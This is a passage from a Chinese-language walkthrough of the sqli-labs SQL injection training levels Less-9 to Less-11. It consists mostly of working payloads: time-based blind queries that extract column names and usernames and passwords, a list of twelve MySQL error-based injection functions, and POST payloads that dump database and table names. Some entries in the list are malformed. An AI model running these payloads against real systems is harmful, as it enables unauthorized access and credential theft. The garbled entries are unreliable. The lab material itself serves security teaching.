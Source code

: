 ```
?id=1' and if(left((select column_name from information_schema.columns where table_name='users' limit 4,1),8)='password', sleep(3), 1) --+
?id=1' and if(left((select column_name from information_schema.columns where table_name='users' limit 9,1),8)='username', sleep(3), 1) --+
```

我在第4，9行分别爆破到password和username，个人环境不同的可能表位置有差别。

爆值payload

```
?id=1' and if(left((select password from users order by id limit 0,1),4)='dumb' , sleep(3), 1) --+
?id=1' and if(left((select username from users order by id limit 0,1),4)='dumb' , sleep(3), 1) --+
```

爆破到第一个人的username：dumb，password：dumb。修改limit x,1 继续爆破其他用户，手工注入比较慢，可以使用sqlmap。

## 0X0ALess-10

**GET - Blind - Time based - double quotes (基于时间的双引号盲注)**

基于时间的双引号盲注，只要把上一题Less-9的单引号改成双引号，一样的注入



## 0X0BLess-11

**POST - Error Based - Single quotes- String (基于错误的POST型单引号字符型注入)**

```
1、通过floor报错,注入语句如下:and select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);
2、通过ExtractValue报错,注入语句如下:and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));
3、通过UpdateXml报错,注入语句如下:and 1=(updatexml(1,concat(0x3a,(select user())),1))
4、通过NAME_CONST报错,注入语句如下:and exists(select*from (select*from(selectname_const(@@version,0))a join (select name_const(@@version,0))b)c)
5、通过join报错,注入语句如下:select * from(select * from mysql.user ajoin mysql.user b)c;
6、通过exp报错,注入语句如下:and exp(~(select * from (select user () ) a) );
7、通过GeometryCollection()报错,注入语句如下:and GeometryCollection(()select *from(select user () )a)b );
8、通过polygon ()报错,注入语句如下:and polygon (()select * from(select user ())a)b );
9、通过multipoint ()报错,注入语句如下:and multipoint (()select * from(select user() )a)b );
10、通过multlinestring ()报错,注入语句如下:and multlinestring (()select * from(selectuser () )a)b );
11、通过multpolygon ()报错,注入语句如下:and multpolygon (()select * from(selectuser () )a)b );
12、通过linestring ()报错,注入语句如下:and linestring (()select * from(select user() )a)b );
```

爆库payload

```
uname=admin' and extractvalue(1,concat(0x7e,(select database()))) --+&passwd=admin&submit=Submit
```

爆表payload

```
uname=admin' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))) --+&passwd=admin&submit=Submit
```
